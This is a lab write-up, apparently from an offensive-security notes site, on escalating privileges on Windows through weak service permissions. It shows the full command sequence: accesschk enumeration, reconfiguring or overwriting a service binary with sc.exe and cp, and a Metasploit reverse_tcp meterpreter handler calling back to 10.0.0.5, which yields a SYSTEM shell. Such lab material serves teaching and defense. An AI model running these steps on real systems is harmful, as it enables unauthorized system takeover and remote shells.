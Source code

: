# Weak Service Permissions

This quick lab covers two Windows service misconfigurations that allow an attacker to elevate their privileges:

1. A low privileged user is allowed to change service configuration - for example change the service binary the service launches when it starts
2. A low privileged user can overwrite the binary the service launches when it starts

## 1. Changing Service Configuration

Let's enumerate services with `accesschk` from SysInternals and look for `SERVICE_ALL_ACCESS` or  `SERVICE_CHANGE_CONFIG` as these privileges allow attackers to modify service configuration:

{% tabs %}
{% tab title="attacker@victim" %}
```text
\\vboxsvr\tools\accesschk.exe /accepteula -ucv "mantvydas" evilsvc
or
\\vboxsvr\tools\accesschk.exe /accepteula -uwcqv "Authenticated Users" *
```
{% endtab %}
{% endtabs %}

Below indicates that the user `mantvydas` has full access to the service:

![](../../.gitbook/assets/annotation-2019-05-21-205403.png)

Let's modify the service and point its binary to our malicious binary that will get us a meterpreter shell when the service is launched:

{% tabs %}
{% tab title="attacker@victim" %}
```text
.\sc.exe config evilsvc binpath= "c:\program.exe"
```
{% endtab %}
{% endtabs %}

![](../../.gitbook/assets/annotation-2019-05-21-205633.png)

Let's fire up a multihandler in mfsconsole:

{% tabs %}
{% tab title="attacker@kali" %}
```text
msfconsole -x "use exploits/multi/handler; set lhost 10.0.0.5; set lport 443; set payload windows/meterpreter/reverse_tcp; exploit"
```
{% endtab %}
{% endtabs %}

...and start the vulnerable service:

{% tabs %}
{% tab title="attacker@victim" %}
```text
.\sc.exe start evilsvc
```
{% endtab %}
{% endtabs %}

..and enjoy the meterpreter session:

![](../../.gitbook/assets/annotation-2019-05-21-210027.png)

Note that the meterpreter session will die soon since the meterpreter binary `program.exe` that the vulnerable service `VulnSvc` kicked off, is not a compatible service binary. To save the session, migrate it to another sprocess:

{% tabs %}
{% tab title="attacker@kali" %}
```text
run post/windows/manage/migrate
```
{% endtab %}
{% endtabs %}

Even though the service failed, the session was migrated and saved:

![](../../.gitbook/assets/annotation-2019-05-21-210541%20%281%29.png)

## 2. Overwriting Service Binary

From the first exercise, we know that our user has `SERVICE_ALL_ACCESS` for the service `evilsvc`. Let's check the service binary path:

{% tabs %}
{% tab title="attacker@victim" %}
```text
sc.exe qc evilsvc
```
{% endtab %}
{% endtabs %}

![](../../.gitbook/assets/annotation-2019-05-21-210916.png)

Let's check file permissions of the binary c:\service.exe using a native windows tool `icals` and look for \(M\)odify or \(F\)ull permissions for `Authenticated Users` or the user you currently have a shell with:

{% tabs %}
{% tab title="attacker@victim" %}
```text
icacls C:\service.exe
```
{% endtab %}
{% endtabs %}

![](../../.gitbook/assets/annotation-2019-05-21-211128.png)

Since c:\service.exe is \(M\)odifiable by any authenticated user, we can move our malicious binary c:\program.exe to c:\service.exe:

{% tabs %}
{% tab title="attacker@victim" %}
```text
cp C:\program.exe C:\service.exe
ls c:\
```
{% endtab %}
{% endtabs %}

![](../../.gitbook/assets/annotation-2019-05-21-211232.png)

...and get the meterpreter shell once `sc start evilsvc` is executed. Note that the shell will die if we do not migrate the process same way as mentioned earlier:

![](../../.gitbook/assets/annotation-2019-05-21-211349.png)

Since services usually run under `NT AUTHORITY\SYSTEM`, our malicious binary gets executed with `SYSTEM` privileges:

![](../../.gitbook/assets/annotation-2019-05-21-212438.png)

